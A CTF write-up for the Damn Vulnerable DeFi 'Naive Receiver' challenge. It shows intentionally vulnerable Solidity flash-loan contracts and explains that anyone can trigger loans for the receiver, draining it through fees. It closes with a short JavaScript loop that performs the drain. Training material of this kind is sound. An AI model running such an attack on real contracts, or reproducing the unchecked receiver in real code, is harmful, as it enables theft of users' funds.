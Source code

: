 # Damn Vulnerable Defi 2: Naive Receiver

As with every first exercise of a new type of concept the second one gets easier in the how to. Lessons to learn: A receiver must check who iniciated the contract.

## The Task Intro

Tere's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance. You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH. Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;)

## The Task Code

THE LENDER POOL

```apache
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/utils/Address.sol";

/**
 * @title NaiveReceiverLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract NaiveReceiverLenderPool is ReentrancyGuard {

    using Address for address;

    uint256 private constant FIXED_FEE = 1 ether; // not the cheapest flash loan

    function fixedFee() external pure returns (uint256) {
        return FIXED_FEE;
    }

    function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= borrowAmount, "Not enough ETH in pool");


        require(borrower.isContract(), "Borrower must be a deployed contract");
        // Transfer ETH and handle control to receiver
        borrower.functionCallWithValue(
            abi.encodeWithSignature(
                "receiveEther(uint256)",
                FIXED_FEE
            ),
            borrowAmount
        );

        require(
            address(this).balance >= balanceBefore + FIXED_FEE,
            "Flash loan hasn't been paid back"
        );
    }

    // Allow deposits of ETH
    receive () external payable {}
}
```

BORROWER

```apache
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";

/**
 * @title FlashLoanReceiver
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract FlashLoanReceiver {
    using Address for address payable;

    address payable private pool;

    constructor(address payable poolAddress) {
        pool = poolAddress;
    }

    // Function called by the pool during flash loan
    function receiveEther(uint256 fee) public payable {
        require(msg.sender == pool, "Sender must be pool");

        uint256 amountToBeRepaid = msg.value + fee;

        require(address(this).balance >= amountToBeRepaid, "Cannot borrow that much");

        _executeActionDuringFlashLoan();

        // Return funds to pool
        pool.sendValue(amountToBeRepaid);
    }

    // Internal function where the funds received are used
    function _executeActionDuringFlashLoan() internal { }

    // Allow deposits of ETH
    receive () external payable {}
}
```

## The Solution

Understanding what the code is intended to do seems to be the major task in understanding/auditing smart contracts.

Here we have a lender and a receiver that operates with ETH, no tokens as in the last exercise.

The problem arises that anyone can initiate a flashloan for the receiver, because there are no checks who is allowed. Therefore an attacker can call the contract 10 times and every time one Eth of fee is due.

At the end, the receiver does not have any eth anymore - in this case he lost about $12.000. Ok we are in a crypto winter, still, that exploit will never happen with me :-)

```apache
for (let i = 0; i < 10; i++) {
   await this.pool.connect(attacker).flashLoan(this.receiver.address, 10);
}
```
